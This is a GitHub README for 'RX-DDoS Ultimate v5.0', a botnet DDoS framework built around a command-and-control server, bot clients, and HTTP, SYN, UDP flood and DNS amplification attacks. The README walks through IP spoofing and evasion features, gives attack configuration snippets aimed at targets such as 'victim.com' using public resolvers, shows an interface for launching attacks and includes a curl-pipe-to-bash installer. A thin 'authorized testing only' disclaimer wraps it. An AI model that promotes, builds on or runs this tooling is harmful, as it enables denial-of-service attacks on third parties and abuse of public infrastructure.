

🚀 RX-DDoS Ultimate v5.0 - Advanced Botnet DDoS Framework

<div align="center">

rx-ddos.jpg

https://img.shields.io/badge/Python-3.8%2B-blue?style=for-the-badge&logo=python
https://img.shields.io/badge/Platform-Windows%20%7C%20Linux%20%7C%20macOS-lightgrey?style=for-the-badge
https://img.shields.io/badge/License-MIT-green?style=for-the-badge
https://img.shields.io/badge/Version-5.0--Ultimate-orange?style=for-the-badge

Advanced Botnet DDoS Framework for Authorized Penetration Testing

Developed by CRZ101 | RX-TEAM | ANONYMOUS

Features • Installation • Quick Start • Architecture • Documentation

</div>

📋 Table of Contents

· Overview
· Features
· Architecture
· Installation
· Quick Start
· Advanced Usage
· Attack Types
· API Reference
· Contributing
· Security
· License

🎯 Overview

RX-DDoS Ultimate v5.0 is a sophisticated, feature-rich Distributed Denial of Service (DDoS) framework designed for cybersecurity professionals, penetration testers, and authorized security researchers. This advanced tool provides a complete botnet infrastructure with centralized command and control capabilities.

```python
# Example: Quick Start
from rx_ddos import RXDDosUltimate

app = RXDDosUltimate()
app.start_c2_server()  # Launch Command & Control
```

✨ Features

🏗️ Core Infrastructure

Feature Status Description
Advanced C2 Server ✅ Multi-port command & control
Botnet Management ✅ Real-time bot monitoring
Encrypted Communications ✅ AES-256 encrypted channels
Auto-scaling ✅ Dynamic bot coordination

🔥 Attack Vectors

Attack Type Layer Intensity Stealth
HTTP Flood Layer 7 ⭐⭐⭐⭐⭐ ⭐⭐⭐⭐
SYN Flood Layer 4 ⭐⭐⭐⭐⭐ ⭐⭐⭐
UDP Flood Layer 4 ⭐⭐⭐⭐ ⭐⭐
DNS Amplification Layer 7 ⭐⭐⭐⭐⭐ ⭐⭐⭐⭐⭐

🛡️ Security & Stealth

· 🔒 Fernet Encryption with key rotation
· 🎭 IP Spoofing capabilities
· 🔄 Protocol Mimicry for evasion
· 📊 Traffic Analysis resistance

🏛️ Architecture

System Overview



Component Details

1. C2 Server (BotnetC2Server)

```python
class BotnetC2Server:
    def __init__(self, host='0.0.0.0', ports=[501, 502, 503]):
        self.encryption = AdvancedEncryption()
        self.bots = {}  # Active bot registry
        self.command_queue = {}  # Distributed commands
```

2. Attack Engine (AdvancedAttackEngine)

```python
class AdvancedAttackEngine:
    def http_flood_attack(self, target, port=80, duration=60, threads=50):
        # Advanced HTTP flood implementation
        pass
```

3. Bot Client (BotClient)

```python
class BotClient:
    def connect_to_c2(self):
        # Secure connection to C2 server
        # Command execution loop
        pass
```

🚀 Installation

Prerequisites

· Python 3.8+
· pip package manager
· Root/Admin privileges (for raw sockets)

Quick Install Script

```bash
# Download and install (Linux/macOS)
curl -fsSL https://raw.githubusercontent.com/rx-team/rx-ddos/main/install.sh | bash

# Or manually:
git clone https://github.com/rx-team/rx-ddos-ultimate.git
cd rx-ddos-ultimate
chmod +x install.sh
./install.sh
```

Manual Installation

```bash
# 1. Clone repository
git clone https://github.com/rx-team/rx-ddos-ultimate.git
cd rx-ddos-ultimate

# 2. Create virtual environment
python -m venv venv
source venv/bin/activate  # Linux/macOS
# venv\Scripts\activate  # Windows

# 3. Install dependencies
pip install -r requirements.txt

# 4. Verify installation
python rx-DDos.py --version
```

Dependencies

Package Version Purpose
scapy ≥2.4.5 Packet manipulation
cryptography ≥3.4.8 Advanced encryption
dnspython ≥2.1.0 DNS amplification
requests ≥2.25.1 HTTP operations

⚡ Quick Start

Scenario 1: Direct Attack

```python
# Simple HTTP Flood attack
from rx_ddos import AdvancedAttackEngine

engine = AdvancedAttackEngine()
result = engine.http_flood_attack(
    target="example.com",
    port=80,
    duration=300,  # 5 minutes
    threads=100
)
print(f"Attack completed: {result} requests sent")
```

Scenario 2: Botnet Deployment

```bash
# Terminal 1 - Start C2 Server
python rx-DDos.py
# Choose: 1. Start C2 Server

# Terminal 2 - Connect Bot Client
python rx-DDos.py
# Choose: 2. Start Bot Client
# Enter C2 Server IP: 192.168.1.100
```

Interactive Menu Guide

```
┌─────────────────────────────────────────────────────┐
│               RX-DDoS ULTIMATE v5.0                 │
├─────────────────────────────────────────────────────┤
│  1. 🏠 Start C2 Server (Ports 501,502,503)         │
│  2. 🤖 Start Bot Client                             │
│  3. ⚡ Direct Attack                                │
│  4. 📊 Show Statistics                             │
│  5. 🌐 Advanced Botnet Attack                      │
│  6. 🚪 Exit                                        │
└─────────────────────────────────────────────────────┘
```

🔧 Advanced Usage

Configuration Files

Create config.json for persistent settings:

```json
{
    "c2_server": {
        "host": "0.0.0.0",
        "ports": [501, 502, 503],
        "encryption_key": "custom_secure_key"
    },
    "attack_defaults": {
        "duration": 300,
        "threads": 50,
        "intensity": "high"
    }
}
```

API Integration

```python
import requests
import json

# Programmatic attack control
def launch_attack(target, attack_type, duration):
    config = {
        "type": "attack",
        "attack_type": attack_type,
        "target": target,
        "duration": duration
    }
    
    response = requests.post(
        "http://c2-server:501/command",
        json=config,
        headers={"Authorization": "Bearer YOUR_API_KEY"}
    )
    return response.json()
```

💥 Attack Types

1. HTTP Flood Attack 🌊

Description: High-volume HTTP requests to overwhelm web servers.

```python
# Configuration Example
attack_config = {
    "type": "http_flood",
    "target": "target.com",
    "port": 80,
    "duration": 600,
    "threads": 200,
    "user_agents": "advanced",  # Rotating user agents
    "paths": ["/", "/api", "/wp-admin"]  # Multiple endpoints
}
```

Features:

· ✅ Rotating User-Agents
· ✅ Random IP Spoofing
· ✅ Keep-Alive Connections
· ✅ SSL/TLS Support

2. SYN Flood Attack 🔄

Description: TCP SYN packets to exhaust connection tables.

```python
# Requires: Root privileges, Scapy
syn_config = {
    "type": "syn_flood", 
    "target": "192.168.1.1",
    "port": 80,
    "source_ips": "random",  # IP spoofing
    "packet_size": "varying"
}
```

3. UDP Flood Attack 📨

Description: UDP packets with random payload to flood bandwidth.

4. DNS Amplification 🔍

Description: Exploit DNS servers to amplify attack traffic.

```python
dns_config = {
    "type": "dns_amplification",
    "target": "victim.com",
    "dns_servers": ["8.8.8.8", "1.1.1.1"],
    "query_type": "ANY",  # Maximum amplification
    "amplification_factor": "50x"  # Traffic multiplier
}
```

📊 Performance Metrics

Benchmark Results

Attack Type Requests/Sec Bandwidth Effectiveness
HTTP Flood 10,000+ 100 Mbps ⭐⭐⭐⭐⭐
SYN Flood 50,000+ 50 Mbps ⭐⭐⭐⭐
UDP Flood 100,000+ 1 Gbps ⭐⭐⭐⭐⭐
DNS Amplification 5,000+ 500 Mbps ⭐⭐⭐⭐⭐

Resource Usage

Component CPU Usage Memory Network
C2 Server 5-10% 100MB Low
Bot Client 1-5% 50MB Variable
Attack Engine 15-80% 50-200MB High

🔌 API Reference

C2 Server API

```python
# Start C2 Server
c2 = BotnetC2Server(host='0.0.0.0', ports=[501, 502, 503])
c2.start_server()

# Get bot statistics
active_bots = c2.get_active_bots()
attack_status = c2.get_attack_status()
```

Attack Engine API

```python
engine = AdvancedAttackEngine()

# Available methods
engine.http_flood_attack(target, port, duration, threads)
engine.syn_flood_attack(target, port, duration, threads) 
engine.udp_flood_attack(target, port, duration, threads)
engine.dns_amplification_attack(target, duration, threads)
```

🛡️ Security & Best Practices

Legal Compliance

⚠️ Important: This tool is for authorized penetration testing and educational purposes only.

Scenario Status
Authorized Penetration Testing ✅ Allowed
Educational Research ✅ Allowed
Unauthorized Attacks ❌ Illegal
Critical Infrastructure ❌ Prohibited

Security Features

· 🔐 End-to-end Encryption
· 🎭 Traffic Obfuscation
· 🔄 Key Rotation
· 📝 Activity Logging

Safety Guidelines

1. Always obtain written permission before testing
2. Use in isolated environments for training
3. Follow responsible disclosure practices
4. Comply with local laws and regulations

🐛 Troubleshooting

Common Issues

Problem Solution
ImportError: No module named 'scapy' pip install scapy
PermissionError: [Errno 1] Run with sudo (Linux) or as Admin (Windows)
Bot cannot connect to C2 Check firewall settings and network connectivity
Low attack effectiveness Increase thread count or use more bots

Debug Mode

```bash
# Enable verbose logging
python rx-DDos.py --debug

# Or set environment variable
export RX_DEBUG=1
python rx-DDos.py
```

🤝 Contributing

We welcome contributions from the security community!

Development Setup

```bash
# 1. Fork the repository
# 2. Clone your fork
git clone https://github.com/your-username/rx-ddos-ultimate.git

# 3. Create feature branch
git checkout -b feature/amazing-feature

# 4. Make changes and test
python test_suite.py

# 5. Commit and push
git commit -m "Add amazing feature"
git push origin feature/amazing-feature

# 6. Create Pull Request
```

Contribution Areas

· 🔧 New attack vectors
· 📊 Performance optimization
· 🛡️ Enhanced security features
· 📚 Documentation improvements
· 🐛 Bug fixes and testing

📄 License

This project is licensed under the MIT License - see the LICENSE file for details.

```
MIT License
Copyright (c) 2024 RX-TEAM, ANONYMOUS

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.
```

📞 Support & Community

· 🐛 Bug Reports: GitHub Issues
· 💬 Discord: Join our Community
· 📧 Email: support@rx-team.com
· 📚 Documentation: Full Documentation

🏆 Acknowledgments

· CRZ101 - Lead Developer
· RX-TEAM - Development Team
· Security Research Community - Testing & Feedback
· Open Source Contributors - Continuous Improvement

---

<div align="center">

⚠️ Warning: For Authorized Testing and Educational Purposes Only

Use responsibly and in compliance with all applicable laws.

https://img.shields.io/github/stars/rx-team/rx-ddos-ultimate?style=social
https://img.shields.io/github/forks/rx-team/rx-ddos-ultimate?style=social

Made with ❤️ by the security community, for the security community

</div>
